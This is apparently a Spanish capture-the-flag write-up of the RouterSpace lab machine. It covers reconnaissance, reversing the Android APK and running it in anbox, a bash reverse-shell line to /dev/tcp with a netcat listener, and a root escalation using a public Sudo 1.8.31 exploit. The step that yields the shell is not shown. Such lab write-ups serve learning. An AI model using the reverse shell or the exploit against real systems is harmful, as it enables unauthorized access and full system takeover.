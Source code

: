 10.10.11.148
------------


RouterSpace:

Tenemos el puerto 22 (ssh) y el 80 (http) abiertos (utilize un script en bash)
El wahtweb nos reporta lo siguiente:
```console
http://10.10.11.148 [200 OK] Bootstrap, HTML5, IP[10.10.11.148], JQuery[1.12.4], Modernizr[3.5.0.min], Script, Title[RouterSpace], UncommonHeaders[x-cdn], X-Powered-By[RouterSpace], X-UA-Compatible[ie=edge]
```
La web (RouterSpace) nos ofrece una aplicacion, el resto de cosas no son funcionales (enlace de contacto, 
subscripcion...)

El fuzzing de rutas no funciona ta que pone "Suspicious Activity Detected..."

Nos descargamos la apk, hoy daremos pentesting android.
La herramienta apktool permite desempaquetar la app para ver su codigo.

```console
└─$ apktool d RouterSpace2.apk
```

Una apk tiene como estructura datos en XML (metadatos) y codigo ensamblado smali (lenguaje ensamblador 
especifico de android).

Hay un archivo que suele contener informacion critica: 
```console
└─$ cat ./res/values/strings.xml | grep -oE ">.*?<" --color=none | tr -d "<>";
```
Pero no he dado con nada interesante. He hecho un grepeo recursivo con palabras clave como password o el nombre de
la maquina ```grep -rIE "routerspace|password"``` pero tampoco hay suerte.

El codigo smali es muy dificil de interpretar, el codigo principal esta en un archivo llamadp MainActivity
```console
└─$ find ./ -name "Main*" 
./smali/com/routerspace/MainActivity.smali
```
Hay un desamblador llamado jadx (se corre con el comando ```jadx-gui```), es similar al ghidra y nos permite leer
en codigo java todo esto, pero tampoco encontre por ahi.

Lo unico que queda es correr la apk en un emulador y analizar su comportamiento, como se llama Routerspace tiene
que ver con cosas de redes.

Para hacer que el anbox tenga conectividad hay que bajarse un [script](https://raw.githubusercontent.com/anbox/anbox/master/scripts/anbox-bridge.sh) y ejecutarlo como root.
```sudo bash bridge.sh```

```
└─$ /snap/bin/anbox launch --package=org.anbox.appmgr --component=org.anbox.appmgr.AppViewActivity
└─$ adb shell settings put global http_proxy 10.10.14.16:8001;
```

```console
└─$ sudo nc -6nlvp 443 
bash -c 'bash -i >& /dev/tcp/dead:beef:2::100e/443 0>&1'
```
```console
paul@routerspace:/tmp$ find / -perm /4000 2>/dev/null
```
- SUIDs -> /usr/bin/sudo

```console
paul@routerspace:/tmp$ sudo --version
Sudo version 1.8.31

└─$ git clone https://github.com/mohinparamasivam/Sudo-1.8.31-Root-Exploit
└─$ cd Sudo-1.8.31-Root-Exploit


paul@routerspace:/tmp$ nano exploit.c
paul@routerspace:/tmp$ nano shellcode.c
paul@routerspace:/tmp$ nano Makefile
paul@routerspace:/tmp$ make
mkdir libnss_x
cc -O3 -shared -nostdlib -o libnss_x/x.so.2 shellcode.c
cc -O3 -o exploit exploit.c
paul@routerspace:/tmp$ ./exploit
# bash
root@routerspace:/tmp#


```

